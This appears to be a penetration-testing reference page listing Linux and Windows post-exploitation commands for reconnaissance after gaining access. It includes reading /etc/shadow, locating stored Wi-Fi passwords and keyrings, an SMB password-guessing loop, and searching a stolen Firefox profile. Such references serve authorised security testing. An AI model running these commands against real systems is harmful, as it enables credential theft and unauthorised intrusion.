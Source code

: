 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>

> **Windows**

Determine Account | <code> whoami, set username </code>
DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Processes | <code> tasklist </code>
Services | <code> sc query </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Routing Table | <code> netstat -nr  </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup [/domain] </code> 
List Administrators | <code> net localgroup administrators [/domain] </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
List Domain Controllers | <code> NETDOM QUERY /D:MyDomain DC </code>
List Domain Controllers | <code> DSQUERY Server </code>
List Member Servers | <code> NETDOM QUERY /D:MyDomain SERVER </code>
List all Workstations | <code> NETDOM QUERY /D:MyDomain WORKSTATION </code>
List Groups for Account | <code> DSQUERY USER -samid loginname | DSGET USER -memberof -expand </code>
List all shares for a system | <code> net view [system] /ALL [/Domain] </code>


> **Firefox**

Finding user browser history and passwords in history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}




